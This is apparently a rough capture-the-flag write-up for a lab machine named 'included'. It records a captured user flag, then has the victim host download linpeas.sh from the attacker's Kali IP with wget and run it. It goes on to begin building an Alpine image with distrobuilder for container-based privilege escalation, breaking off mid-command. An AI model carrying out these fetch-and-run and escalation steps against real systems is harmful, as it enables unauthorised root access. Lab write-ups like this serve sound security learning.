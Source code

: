 - Went to the 
- got the user flag
```shell
a56ef91d70cfbf2cdb8f454c006935a1
```

- the vitim machine i installed linpeas on the /tmp folder so that we can focus on getting root access, created the server on the kali machine
```shell
mike@included:/tmp$ wget http://10.10.14.26/linpeas.sh 
--2023-04-12 16:22:21--  http://10.10.14.26/linpeas.sh
Connecting to 10.10.14.26:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828287 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.87K  2.13MB/s    in 0.4s    

2023-04-12 16:22:21 (2.13 MB/s) - ‘linpeas.sh’ saved [828287/828287]

mike@included:/tmp$ chmod -x linpeas.sh 
mike@included:/tmp$ ./linpeas.sh
bash: ./linpeas.sh: Permission denied
mike@included:/tmp$ chmod +x linpeas.sh 
mike@included:/tmp$ ./linpeas.sh

```
- then proceeded to download the repository that  and create the exploit using the builder
```shell


sudo su

#Install requirements

sudo apt update

sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo

git clone https://github.com/lxc/distrobuilder

#Make distrobuilder

cd distrobuilder

make

#Prepare the creation of alpine

mkdir -p $HOME/ContainerImages/alpine/

cd $HOME/ContainerImages/alpine/

wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container

sudo $HOME/go/bin/distrobui
```
